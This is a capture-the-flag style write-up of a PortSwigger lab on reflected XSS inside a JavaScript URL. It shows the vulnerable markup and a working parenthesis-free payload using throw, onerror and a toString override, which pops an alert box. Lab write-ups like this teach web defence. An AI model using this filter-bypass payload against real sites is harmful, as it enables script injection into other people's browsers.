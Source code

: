 # Reflected XSS in a JavaScript URL with some characters blocked | Jan 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked), you'll learn: Reflected XSS in a JavaScript URL with some characters blocked! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★☆☆☆☆

## Background

This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent [XSS](https://portswigger.net/web-security/cross-site-scripting) attacks.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert` function with the string `1337` contained somewhere in the `alert` message.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-26/images/Pasted%20image%2020230101061902.png)

In the home page, we can view one of those posts:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-26/images/Pasted%20image%2020230101062226.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-26/images/Pasted%20image%2020230101062242.png)

**View source page:**
```html
<div class="is-linkback">
    <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d2'}).finally(_ => window.location = '/')">Back to Blog</a>
</div>
```

In the `Back to Blog` `<a>` tag link, **it's using a JavaScript code, which sends a POST request to `/analytics` with parameter `/post?postId=2`.**

**Let's try to inject JavaScript code in `/post?postId=2` GET parameter:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-26/images/Pasted%20image%2020230101063040.png)

Hmm... Looks like we first need to bypass the `Invalid blog post ID`.

**To do so, I'll try to close the JavaScript URL via `'`, with HTML encoding:**
```
&%27;
```

**Let's try to inject a XSS payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-26/images/Pasted%20image%2020230101065321.png)

However, the parentheses (`()`) are missing. Looks like the application removes them.

**To bypass that, we can:**
```js
2&%27},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

**Result:**
```js
javascript:fetch('/analytics', {method:'post',body:'/post/postId=2'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:''}).finally(_ => window.location = '/')
```

In here, we can use `throw` statement with an exception handler. This enables you to pass arguments to a function without using parentheses.

The `{throw/**/onerror=alert,1337}` code is to throw an exception, which is a JavaScript comment and it'll trigger an error. Then, when an error occurred, assign function `alert()`, with argument `1337` to `onerror` exception handler.

Finally, the `,toString=x,window+'',{x:'` code is to assign the `toString` property of `window` and trigger this by forcing a string conversion on `window`.

Let's try it!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-26/images/Pasted%20image%2020230101065708.png)

When we click the `Back to Blog` link, it'll trigger an alert box!

# What we've learned:

1. Reflected XSS in a JavaScript URL with some characters blocked